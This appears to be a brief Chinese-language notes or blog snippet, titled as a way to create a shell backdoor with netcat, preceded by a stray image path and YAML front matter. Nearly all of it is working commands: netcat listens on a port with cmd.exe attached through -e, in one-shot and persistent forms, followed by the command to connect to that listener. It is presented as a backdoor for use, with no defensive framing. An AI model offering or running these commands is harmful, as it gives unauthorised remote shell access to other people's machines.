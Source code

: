 ```yaml
---
title: netcat创建shell后门
tags:
  - Snippet
  - shell
  - 后门
  - netcat
categories:
  - - shellcode
    - shell
date: 2023-02-08 10:44:55
---
```



[下载netcat](https://eternallybored.org/misc/netcat/)

```bash
# -l: 一次性, -t: 使用telnet协议, -e 关联程序
nc -l -p <端口> -t -e cmd.exe

# -L: 重复, -t: 使用telnet协议, -e 关联程序
nc -L -p <端口> -t -e cmd.exe

# 连接
nc <ip or server host> <port>
```

